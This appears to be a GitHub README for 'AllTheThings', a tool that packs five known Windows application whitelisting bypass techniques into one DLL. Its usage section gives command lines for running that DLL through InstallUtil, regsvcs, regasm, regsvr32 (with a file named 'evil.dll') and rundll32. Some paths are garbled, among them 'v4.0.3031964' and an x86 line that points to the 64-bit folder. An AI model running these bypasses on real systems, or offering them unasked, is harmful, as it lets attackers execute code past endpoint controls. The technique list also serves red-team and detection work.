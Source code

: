 # AllTheThings
Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.


Includes 5 Known Application Whitelisting/ Applicaoitn Control Bypass Techiniques in One File.
1. InstallUtil.exe

2. Regasm.exe

3. Regsvcs.exe

4. regsvr32.exe

5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
